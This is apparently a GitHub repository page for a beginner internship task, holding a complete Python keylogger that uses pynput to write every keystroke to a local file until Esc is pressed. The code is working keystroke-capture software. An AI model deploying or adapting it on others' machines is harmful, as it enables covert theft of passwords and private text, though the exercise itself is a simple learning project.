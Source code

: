 # keylogger
Internship Task at ProdigyInfotech
from pynput import keyboard

def on_press(key):
    try:
        # Log regular keys
        with open("keylog.txt", "a") as log_file:
            log_file.write(f"{key.char}")
    except AttributeError:
        # Log special keys (e.g., space, enter, etc.)
        with open("keylog.txt", "a") as log_file:
            if key == keyboard.Key.space:
                log_file.write(" ")
            elif key == keyboard.Key.enter:
                log_file.write("\n")
            else:
                log_file.write(f" [{key}] ")

def on_release(key):
    # Stop the keylogger when 'Esc' key is pressed
    if key == keyboard.Key.esc:
        return False

# Start the keylogger
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

